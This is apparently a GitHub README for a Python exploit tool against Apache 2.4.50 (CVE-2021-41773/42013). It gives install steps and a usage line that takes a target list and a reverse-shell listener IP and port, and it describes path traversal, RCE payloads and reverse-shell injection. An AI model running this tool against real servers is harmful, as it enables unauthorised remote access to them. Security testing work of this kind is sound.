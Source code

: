 # Apache-HTTP-Server-2.4.50-RCE

This tool is designed to test Apache servers for the CVE-2021-41773 / CVE-2021-42013 vulnerability. It is intended for educational purposes only and should be used responsibly on systems you have explicit permission to test.

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Zyx2440/Apache-HTTP-Server-2.4.50-RCE.git
2. Go to the dir:
   ```bash
   cd Apache-HTTP-Server-2.4.50-RCE
4. install The Requirements:
   ```bash
   pip3 install -r requirements.txt

5. usage: 
   ```bash
   python3 50512.py target.txt -ip 10.0.2.15 -p 4444

   the text file should contain the url of the target 

   
### What the Script Does ???

Apache Version Check: For each URL in the provided file, it checks whether the server is running Apache version 2.4.50.

### Exploit Testing:
If the server is vulnerable: It attempts to exploit the server by sending payloads to either trigger directory traversal attacks or execute code remotely.
If CGI is enabled: It tries to inject a reverse shell payload to gain remote access.

# Warning:
For Educational Use Only: The script is intended for educational purposes to demonstrate how vulnerabilities can be tested and exploited. Using this script against unauthorized targets is illegal and unethical.

### additionally info:
#### Original Author: calfcrusher@inventati.org
#### Modified by: Zyx2440
Purpose of modification: Added additional error handling and optimized the payload logic adn RCE and remove cve 
